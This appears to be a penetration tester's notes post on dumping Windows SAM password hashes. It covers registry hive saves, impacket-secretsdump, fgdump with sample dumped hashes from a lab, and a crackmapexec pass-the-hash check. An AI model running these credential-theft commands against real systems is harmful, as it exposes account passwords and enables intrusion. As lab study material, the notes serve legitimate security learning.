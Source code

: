 ```yaml
---
description: >-
  Dumping SAM
title: Dumping SAM              # Add title here
date: 2022-12-16 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Persistence]          # Change Templates to Writeup
tags: [active directory, persistence, sam, dump, fgdump, impacket-secretsdump]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Traditional dumping

In order to dump the same, two register keys must be retrieved:
```powershell
reg save hklm\sam c:\sam 
reg save hklm\system c:\system
```

You need to use impacket-secretsdump to retrieve hashes correctly (samdump2 is not useful here):

```bash
impacket-secretsdump -system system -sam sam LOCAL
```
Examples:
[Acute](https://shuciran.github.io/posts/Acute/#fnref:dumping-sam)


### fgdump.exe

Another way to extract the hashes (useful for older Windows versions) is fgdump executable, we only need to upload it to the server and run it, then upon succed a file will be generated:

```powershell
fgdump.exe

type 127.0.0.1.pwdump
admin:1007:A46139FEAAF2B9F117306D272A9441BB:C5E0002FDE3F5EB2CF5730FFEE58EBCC:::
Administrator:500:7BFD3EE62CBB0EBA886450C5D6C50F12:F3ACBE7EC27AADBE8DEEAA0C651A64AF:::
backup:1006:16AC416C2658E00DAAD3B435B51404EE:938DF8B296DD15D0DCE8EAA37BE593E0:::
david:1009:43AF16FFF22F1628AAD3B435B51404EE:1FBFF38CAE51E9918DA1FEC572F03E11:::
gary:1013:998D9DC042886317C72BEFE227197AE1:BA359FA9D25791C2180E424BB7BB0753:::
Guest:501:NO PASSWORD*********************:NO PASSWORD*********************:::
homer:1017:EF91A6D3CF901B8BAAD3B435B51404EE:B184D292A82B6AD35C3CFCA81F1F59BC:::
IUSR_SRV2:1020:F7D96EBCBE5B6BE3103CCB00190F6271:09FF503707453D56BB69F40BEF542DA0:::
IWAM_SRV2:1019:96FE1FC02D73A84C463DB170B09126F1:BE6EC26D0D71A533E14B65CE755D7BCE:::
john:1010:E52CAC67419A9A2238F10713B629B565:5835048CE94AD0564E29A924A03510EF:::
lee:1015:B096847EAD9B7476AAD3B435B51404EE:208ADB08381ADAB3032EEDBD35399642:::
lisa:1011:A179639DCAF4E1C4AAD3B435B51404EE:8ACF28FDC0168E003FB3E05BCB463D1B:::
mark:1012:6C3D4C343F999422AAD3B435B51404EE:BCD477BFDB45435A34C6A38403CA4364:::
ned:1016:836EDA0FBC609E6393E28745B8BF4BA6:4F16328129408ED105DEC3A938C266EB:::
nick:1014:59B8B93A9A6477E4AAD3B435B51404EE:EE28AD35A22C752C1A75BE3F9A7E82C9:::
simon:1008:598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF:::
sqlusr:1005:6307AB24156C541AAAD3B435B51404EE:6A370590BD44AC8E65D045254A170AB7:::
todd:1018:9E00B755E79C8CF95533B366E9511E4B:4150133921FE34DD2E777B1CA0361410:::
TsInternetUser:1000:E52CAC67419A9A22F96F275E1115B16F:E22E04519AA757D12F1219C4F31252F4:::
```

Then you can use the hash retrieved by using crackmapexec to check that indeed is a correct hash:

```powershell
crackmapexec winrm 192.168.143.59 -u Administrator -p aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 -d offsec.local
```

For further details about how to use this hash on a pass the hash attack please refer to [[Pass The Hash#^093000]]



